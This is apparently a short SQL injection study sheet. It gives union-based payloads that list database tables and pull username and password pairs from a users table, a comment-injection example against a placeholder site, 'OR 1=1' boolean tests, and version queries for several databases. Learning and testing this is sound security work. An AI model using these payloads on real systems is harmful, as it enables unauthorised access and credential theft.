 Can be found especially in queries

Useful command when we want to know more about table information.

```
SELECT * FROM information_schema.tables
```

If you want to see tables you can try to exploit it with union-based sql injection.

```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

In case we want to retreive tables more than one, we can use concatenation to achieve that.

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

<h3>How to test SQL injection</h3>

Use ' = if there is SQL error message, this means the web app is vulnerable to SQL injection

Ex.

```
https://insecure-website.com/products?category=Gifts'--
```

This means that the statement after -- will be recognized as a comment. In this case the only part that SQL statement will be execute is ?category=Gift

```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

**Boolean conditions** checks for conditions

try

```
OR 1=1 # this always returns true
```

or

```
OR 1=2 
```

<h1>THE EASIEST WAY TO DETECT SQL INJECTION IS TO USE BURP SCANNER!</h1>

**Union Injection**

**How to check for database information?**

| Database  | Command |
| ------------- | ------------- |
| Microsoft, MySQL  | SELECT @@version |
| Oracle |SELECT * FROM v$version |
| PostgreSQL | SELECT version() |
